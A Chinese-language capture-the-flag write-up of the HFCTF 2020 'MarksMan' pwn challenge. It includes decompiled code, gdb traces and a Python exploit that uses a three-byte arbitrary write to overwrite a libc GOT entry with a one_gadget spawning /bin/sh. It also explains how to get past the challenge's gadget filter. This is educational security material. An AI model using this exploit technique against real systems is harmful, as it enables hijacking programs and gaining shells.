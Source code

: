 ## MarksMan (145pt)

- 题目描述：
  
    > The marksman can shoot very accurately!
    >
    > nc 39.97.210.182 10055
- 题目附件：[chall](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/icq-HFCTF2020/pwn/chall/chall)
- 考察点：任意写(3字节)
- 难度：一般

### 程序分析

很常规的一道内存任意写的题目，程序开头给了`puts`的地址，甚至都不需要泄漏libc。主要代码如下：

```c
  ptr = get_l();
  for ( i = 0; i <= 2; ++i ){
    puts("biang!");
    read(0, &src[i], 1uLL);
    getchar();
  }
  if ( goldfinger(src) ){
    for ( j = 0; j <= 2; ++j )
      *(j + ptr) = src[j];
  }
  if ( !dlopen(0LL, 1) )
    exit(1);
  puts("bye~");
  return 0LL;
```

先读一个指针，然后依次读三个字节，这三个字节的数据将会覆盖到指针执向内存的后三个字节。

### 解题思路

既然给了libc，那就找libc中的函数指针就行啦。

gdb跟进`dlopen`，发现`_dlerror_run+96`这里有个plt函数的调用：

```c
 ► 0x7ffff7bd2730 <_dlerror_run+96>     call   _dl_catch_error@plt <0x7ffff7bd1d90>
        rdi: 0x7ffff7dd40f0 (last_result+16) ◂— 0x0
        rsi: 0x7ffff7dd40f8 (last_result+24) ◂— 0x0
        rdx: 0x7ffff7dd40e8 (last_result+8) ◂— 0x0
        rcx: 0x7ffff7bd1f40 (dlopen_doit) ◂— push   rbx
```

跟进查看`_dl_catch_error`的plt表:

```c
► 0x7ffff7bd1d90 <_dl_catch_error@plt>             jmp    qword ptr [rip + 0x2022a2] <0x7ffff7dd4038>
   0x7ffff7bd1d96 <_dl_catch_error@plt+6>           push   4
   0x7ffff7bd1d9b <_dl_catch_error@plt+11>          jmp    0x7ffff7bd1d40
```

查看GOT表中的值：

```c
pwndbg> x/xg 0x7ffff7dd4038
0x7ffff7dd4038:	0x00007ffff7bd1d96
```

显然是个libc的函数，但是不知道是啥，不过那并不重要..只要是libc的就好，用任意写3字节直接覆盖后3字节，把他改成`one_gadget`就行了。

![](http://image.taqini.space/img/20200419193210.png)

### exp

对应exp如下：

```python
libc_got = 0x5f4038
og_off  = 0xe569f  # r12==NULL | r14==NULL

got = libcbase+libc_got
info_addr('got',got)
og = libcbase+og_off
info_addr('og',og)
ru('shoot!shoot!\n')
sl(str(got))
ru('biang!\n')
sl(p8(og&0xff))
ru('biang!\n')
sl(p8((og>>8)&0xff))
ru('biang!\n')
debug('b *$rebase(0xd63)')
sl(p8((og>>16)&0xff))
```

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/icq-HFCTF2020/pwn/chall) 

### More

对了，代码里有个什么金手指函数：

```c
  if ( goldfinger(src) ){
    for ( j = 0; j <= 2; ++j )
      *(j + ptr) = src[j];
  }

signed __int64 __fastcall goldfinger(_BYTE *a1)
{
  if ( (*a1 != 0xC5u || a1[1] != 0xF2u) && (*a1 != 0x22 || a1[1] != 0xF3u) && *a1 != 0x8Cu && a1[1] != 0xA3u )
    return 1LL;
  puts("You always want a Gold Finger!");
  return 0LL;
}
```

调试的时候一直都是返回1，我就没搭理他，想着应该是没啥用的函数。

后来找`one_gadget`的时候发现原来是禁用了几个gadget，然鹅那么多gadget禁用了几个算啥，我用其他的就好了...出题人憨憨...

```bash
% one_gadget ./libc.so.6 -l2
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe569f execve("/bin/sh", r14, r12)
constraints:
  [r14] == NULL || r14 == NULL
  [r12] == NULL || r12 == NULL

0xe5858 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
  [[rbp-0x88]] == NULL || [rbp-0x88] == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe585f execve("/bin/sh", r10, [rbp-0x70])
constraints:
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe5863 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0x10a398 execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

```

> `one_gadget`默认显示的限制比较少的gadget，用`-l`参数可以设置显示的级别显示更多的gadget

这道题直接用 `r14 == NULL || r12 == NULL`这个就行。